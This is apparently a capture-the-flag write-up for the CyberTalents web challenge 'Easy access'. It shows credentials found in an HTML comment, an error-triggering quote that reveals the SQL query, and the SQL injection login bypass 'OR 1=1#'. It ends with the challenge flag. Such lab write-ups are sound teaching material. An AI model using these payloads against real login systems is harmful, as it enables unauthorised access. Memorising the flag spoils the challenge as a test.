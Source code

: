 # Solve Easy access
### https://cybertalents.com/challenges/web/easy-access

![alt text](images/image-1.png)

in The source code we found `<!---user:bob,pass:password-->`


### Login with user:bob pass:password
![alt text](images/image.png)

Only admin can see the flag 

### Try to Cause error in the login 
##### Payload 
`username:'test Password:test`

Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'test' AND password = '098f6bcd4621d373cade4e832627b4f6'' at line 1

Note the DB is `MariaDB`

#### SQL query structure from error 
```sql
select users_table from user_database where user='username' AND password = md5_hashed_password
```

### SQLI 
We need to inject in the username because the password parsed as md5 hash
payload `username:'OR 1=1# Password:test`

Flag is `flag{!njection_3v3ry_wh3r3}`


>Find More on ==> github.com/MedhatHassan 